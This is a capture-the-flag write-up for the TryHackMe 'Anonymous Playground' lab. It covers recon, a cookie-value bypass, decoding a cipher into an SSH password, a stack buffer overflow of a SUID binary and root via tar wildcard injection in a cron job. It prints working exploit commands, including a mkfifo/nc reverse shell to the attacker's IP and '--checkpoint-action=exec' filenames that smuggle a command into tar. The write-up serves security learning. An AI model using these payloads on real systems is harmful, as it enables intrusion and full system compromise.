




_**Sept 29, 2020**_

<h2 id="Overview">Overview</h2>

How i Hacked my way into [Anonymous Playground](https://tryhackme.com/room/anonymousplayground)

<br>


<h2 id="Target-Informations">Target Informations</h2>

```
Machine Name : Anonymous Playground
IP Adress    : 10.10.0.166
Decription   : hack your way into and prove you have what it takes to become a member of Anonymous
Difficulty   : Rated Hard
```
<br>


<h2 id="Discovery-reconnaissance">Discovery & reconnaissance</h2>

As always we will start with nmap to scan for open ports and services :

```
m3dsec@local:~/anonymousplayground.thm$ nmap -sC -sT -v -oN nmap/nmap_tcp_simple 10.10.0.166
Increasing send delay for 10.10.0.166 from 0 to 5 due to 21 out of 69 dropped probes since last increase.
Nmap scan report for 10.10.0.166
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/zYdHuAKjP
Read data files from: /usr/bin/../share/nmap
# Nmap done -- 1 IP address (1 host up) scanned in 43.22 seconds
```

We got `http` on port 80 and ssh on port 22. On port 80 nmap found `/robots.txt` with a disallowed entry for `/zYdHuAKjP`


<h3 id=" Web Enumeration"> Web Enumeration</h3>

visiting the home page, we got a nice ASCII anonymous mask.




On the `Operative` tab we got a bunch of usernames, we did extract those usernames for a later use.

```
m3dsec@local:~$ curl -s http://10.10.0.166/operatives.php|grep '<li>'|awk -F '>' '{print $2}'|tr '<' ' '|awk '{print $1}'|tee usernames.txt
themayor
spooky
darkstar
akaelite
ninja
w0rmer
nameless0ne
0day
szymex
ma1ware
paradox
bee
iamwill
jammy
magna
cryillic
skidy
naughty
thealchemist
itsundae
```

Let’s check `/zYdHuAKjP` :



the disallwed entry page said, `You have not been granted access. Access denied.`, checking the cookies we see a cookie named `access` set to `denied`




we can easly bypass this by setting the cookies to `granted`




We instantly noticed the second part of the challenge, we where given a set of random characters, well they are not random, we know that those sets of characters are the key to go further as the room hint said :
`You're going to want to write a Python script for this. 'zA' = 'a'`.

```
ORIGIN     : hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
SEPARATED  : hE zA dC fH zA :: hE zA dC fH zA hA iJ zA eI aD jB cB hH gA zA fH fN
FILLED     : hE a  dC fH a  :: hE a  dC fH a  hA iJ a  eI aD jB cB hH gA a  fH fN
```

Our first idea was to reconstruct the pattern with one of the known usernames we retrieved earlier `magna`.

```
hE = m
zA = a
dC = g
fH = n
zA = a
::
hE = m
zA = a 
dC = g
fH = n
zA = a
hA = 
iJ = 
zA = a
eI = 
aD = 
jB = 
cB = 
hH = 
gA = 
zA = a 
fH = n 
fN = 
```

But eventually we didn't had all the required characters to complete the cypher decryption.

Different approach patterns lead us nowhere

```
   hE zA dC fH zA :: hE zA dC fH zA hA iJ zA eI aD jB cB hH gA zA fH fN
hE m  -- -- -- -- -- m  -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
zA -- a  -- -- a  -- -- a  -- -- a  -- -- a  -- -- -- -- -- -- a  -- --
dC -- -- g  -- -- -- -- -- g  -- -- -- -- -- -- -- -- -- -- -- -- -- --
fH -- -- -- n  -- -- -- -- -- n  -- -- -- -- -- -- -- -- -- -- -- n  --
zA -- a  -- -- a  -- -- a  -- -- a  -- -- a  -- -- -- -- -- -- a  -- --
:: -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
hE m  -- -- -- -- -- m  -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
zA -- a  -- -- a  -- -- a  -- -- a  -- -- a  -- -- -- -- -- -- a  -- --
dC -- -- g  -- -- -- -- -- g  -- -- -- -- -- -- -- -- -- -- -- -- -- --
fH -- -- -- n  -- -- -- -- -- n  -- -- -- -- -- -- -- -- -- -- -- n  --
zA -- a  -- -- a  -- -- a  -- -- a  -- -- a  -- -- -- -- -- -- a  -- --
hA -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
iJ -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
zA -- a  -- -- a  -- -- a  -- -- a  -- -- a  -- -- -- -- -- -- a  -- --
eI -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
aD -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
jB -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
cB -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
hH -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
gA -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
zA -- a  -- -- a  -- -- a  -- -- a  -- -- a  -- -- -- -- -- -- a  -- --
fH -- -- -- n  -- -- -- -- -- n  -- -- -- -- -- -- -- -- -- -- -- n  --
fN -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
```

I also tried to extract known words with the same pattern from diffrent wordlists:

```
cat /usr/share/wordlists/rockyou.txt |grep -E '..a......an.'|head
magna..a......an.
..a......an.
|magna  a      an |
      ceandgabbana
      nnah montana
      teamoalejand
      keancipriano
      sharpayevans
      teamoadriana
      auacampioana
      teamoliliana
      frankthetank
```

After so much struggle, [bvr0n](https://tryhackme.com/p/bvr0n) brother find a solution for it in less than 15 min.

```
hE zA dC fH zA :: hE zA dC fH zA hA iJ zA eI aD jB cB hH gA zA fH fN
m  a  g  n  a  :: m  a  g  *  *  *  *  *  *  *  *  *  *  *  a  n  t
magna:mag***********ant
```

His idea was : 
Taking english alphabet index (26), Every lowercase letter index number  will be added to the index number of the Uppercase letter after it. which finally make a number, that number is our final letter from english alphabet index.

Based on his idea we wrote a quick python script to decrypt the cypher for us.

```python
#!/usr/bin/python3
# i need to discover what this one means
# hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN

letters = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
cypher = ['hE', 'zA', 'dC', 'fH', 'zA', 'hA', 'iJ', 'zA', 'eI', 'aD', 'jB', 'cB', 'hH', 'gA', 'zA', 'fH', 'fN']

f = []
for ll in cypher:
    c1 = int(letters.index(ll[0].lower())) + 1
    c2 = int(letters.index(ll[1].lower())) + 1
    #print(str(ll[0]) + " is " + str(c1))
    #print(str(ll[1]) + " is " + str(c2))
    sum = c1 + c2
    if sum == 27:
        x = 'a'
        f.append(x)
    else:
        x = letters[sum-1]
        f.append(x)

z = ''
for i in f:
    z+=i
print('Your Password is : ' + str(z) )
```

The final result was magna password to access ssh on the target host.

```
m3dsec@local:~/anonymousplayground.thm$ ssh magna@10.10.0.166
magna@10.10.0.166's password: mag***********ant
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 29 10:59:19 UTC 2020

  System load:  0.0                Processes:           118
  Usage of /:   22.9% of 19.56GB   Users logged in:     1
  Memory usage: 37%                IP address for eth0: 10.10.0.166
  Swap usage:   0%


3 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Sep 29 08:12:22 2020 from 10.9.123.226
magna@anonymous-playground:~$ id
uid=1001(magna) gid=1001(magna) groups=1001(magna)
```


<h2 id="Internal Enumeration">Internal Enumeration</h2>

once inside, we start enumerating the target internally, we noticed some valuable stuff that may lead us to get root, therefore compromise the whole system.


<br>

<h3 id="Internal Enumeration">Binary Exploitation - Buffer Overflow:</h3>

As we move forward, we got a binary file in magna home folder with some special permissions.
```
magna@anonymous-playground:~$ ls -lat hacktheworld
-rwsr-xr-x 1 root root 8528 Jul 10 01:47 hacktheworld
```

The file is taking input from the user.
```
magna@anonymous-playground:~$ ./hacktheworld
Who do you want to hack? CIA
magna@anonymous-playground:~$ 
```

To understand the functionality of this binary we had to disassemble it, what took our attention are 2 functions, `main` and `call_bash`
```nasm
[0x004006d8]> pdf @main
            ; DATA XREF from entry0 @ 0x40058d
            ;-- rip:
┌ 56: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_50h @ rbp-0x50
│           ; var int64_t var_44h @ rbp-0x44
│           ; var int64_t var_40h @ rbp-0x40
│           ; arg int argc @ rdi
│           ; arg char **argv @ rsi
│           0x004006d8      55             push rbp
│           0x004006d9      4889e5         mov rbp, rsp
│           0x004006dc      4883ec50       sub rsp, 0x50
│           0x004006e0      897dbc         mov dword [var_44h], edi    ; argc
│           0x004006e3      488975b0       mov qword [var_50h], rsi    ; argv
│           0x004006e7      488d3d1d0100.  lea rdi, qword str.Who_do_you_want_to_hack ; 0x40080b ; "Who do you want to hack? "
│           0x004006ee      b800000000     mov eax, 0
│           0x004006f3      e838feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x004006f8      488d45c0       lea rax, qword [var_40h]
│           0x004006fc      4889c7         mov rdi, rax
│           0x004006ff      b800000000     mov eax, 0
│           0x00400704      e837feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x00400709      b800000000     mov eax, 0
│           0x0040070e      c9             leave
└           0x0040070f      c3             ret
```

```nasm
[0x004006d8]> s sym.call_bash
[0x00400657]> pdf
┌ 129: sym.call_bash ();
│           0x00400657      55             push rbp
│           0x00400658      4889e5         mov rbp, rsp
│           0x0040065b      488d3d360100.  lea rdi, qword str.We_are_Anonymous. ; 0x400798 ; "\nWe are Anonymous."
│           0x00400662      e8a9feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400667      bf01000000     mov edi, 1
│           0x0040066c      e8effeffff     call sym.imp.sleep          ; int sleep(int s)
│           0x00400671      488d3d330100.  lea rdi, qword str.We_are_Legion. ; 0x4007ab ; "We are Legion."
│           0x00400678      e893feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0040067d      bf01000000     mov edi, 1
│           0x00400682      e8d9feffff     call sym.imp.sleep          ; int sleep(int s)
│           0x00400687      488d3d2c0100.  lea rdi, qword str.We_do_not_forgive. ; 0x4007ba ; "We do not forgive."
│           0x0040068e      e87dfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400693      bf01000000     mov edi, 1
│           0x00400698      e8c3feffff     call sym.imp.sleep          ; int sleep(int s)
│           0x0040069d      488d3d290100.  lea rdi, qword str.We_do_not_forget. ; 0x4007cd ; "We do not forget."
│           0x004006a4      e867feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006a9      bf01000000     mov edi, 1
│           0x004006ae      e8adfeffff     call sym.imp.sleep          ; int sleep(int s)
│           0x004006b3      488d3d260100.  lea rdi, qword str.Message_corrupted_...Well...done. ; 0x4007e0 ; "[Message corrupted]...Well...done."
│           0x004006ba      e851feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006bf      bf39050000     mov edi, 0x539              ; 1337
│           0x004006c4      e887feffff     call sym.imp.setuid
│           0x004006c9      488d3d330100.  lea rdi, qword str.bin_sh   ; 0x400803 ; "/bin/sh"
│           0x004006d0      e84bfeffff     call sym.imp.system         ; int system(const char *string)
│           0x004006d5      90             nop
│           0x004006d6      5d             pop rbp
└           0x004006d7      c3             ret
```

we can see that `call_bash` function is not called from main, and its printing multiple strings befor changing the suid to 1337 which is user spooky UID, then it calls `/bin/sh`

Sounds like a [stack buffer overflow](https://ctf101.org/binary-exploitation/buffer-overflow/), let's check for security measures implemented over the binary :

```
m3dsec@local:~/anonymousplayground.thm/files$ checksec --file=hacktheworld
[*] '/home/m3dsec/anonymousplayground.thm/files/hacktheworld'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
we can see that NX Byte(No eXecution) is not enabled neither any canary was found, what will make it much easier to exploit.

<br>

First i had to find the size of the buffer, and how many character i need to overwrite it.
```
magna@anonymous-playground:~$ for i in {1..100};do echo $i;python -c "print('A' * $i)"|./hacktheworld ;done
1
Who do you want to hack? 2
Who do you want to hack? 3
Who do you want to hack? 4
Who do you want to hack? 5
Who do you want to hack? 6
Who do you want to hack? 7
Who do you want to hack? 8
Who do you want to hack? 9
...
Who do you want to hack? 72
Segmentation fault (core dumped)
...
```
we can see that the program crash at 0x48 bytes

let's grab the function address
```
magna@anonymous-playground:~$ readelf -a hacktheworld |grep -i call_bash
    50: 0000000000400657   129 FUNC    GLOBAL DEFAULT   13 call_bash
```

Then with a small Python one-liner , we can inject the little-endian encoded address :
```
magna@anonymous-playground:~$ (python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat)|./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.

We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
id
uid=1337(spooky) gid=1001(magna) groups=1001(magna)
python3 -c 'import pty;pty.spawn("/bin/bash")'
spooky@anonymous-playground:~$ export TERM=xterm
spooky@anonymous-playground:~$
```

This will fill the buffer with 72 'A's, then overwrite the EIP (Extended Instruction Pointer) with our little-endian address, In other words, we just told the program where to go next and what adress to execute.

Note that if we do not put `;cat` the adress will be reached and executed but it will exit when the execution is finished, so we will not be able to get an interactive shell.

<br>

<h2 id="Privilege-escalation">Privilege escalation - Cron job exploitation.</h2>

inspecting the crontab file we noticed a cron running everyminut.

```
spooky@anonymous-playground:~$ cat /etc/crontab|grep -v '#'
*/1 *   * * *	root	cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```
so what is the problem here ? the problem is that **tar** is suffering from argument pollutions, as **tar** contain some pretty interesting options that we can be abuseed to get code execution as root, you can read more in [paper](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt).

we injected a reverse shell into `privesc.sh`, and we passed some arguments as files in `/home/spooky` folder.
```
spooky@anonymous-playground:/home/spooky$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.123.226 9991 >/tmp/f' > privesc.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh privesc.sh"
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$ ls -lat
ls -lat
total 48
drwxr-xr-x 4 spooky spooky 4096 Sep 29 09:43  .
-rw-rw-r-- 1 spooky magna     1 Sep 29 09:43 '--checkpoint=1'
-rw-rw-r-- 1 spooky magna     1 Sep 29 09:43 '--checkpoint-action=exec=sh privesc.sh'
-rw-rw-r-- 1 spooky magna    80 Sep 29 09:42  privesc.sh
```

once the cron executed, we got a connection back to our host.

```
m3dsec@local:~/anonymousplayground.thm/files$ nc -vnlp 9991
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9991
Ncat: Listening on 0.0.0.0:9991
Ncat: Connection from 10.10.0.166.
Ncat: Connection from 10.10.0.166:60850.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And We owned root !

<br>

<h2 id="Conclution">Conclution.</h2>

[Tryhackme](https://tryhackme.com/) is getting better everyday.

<br>
<br>
Best Regards

[m3dsec](https://github.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>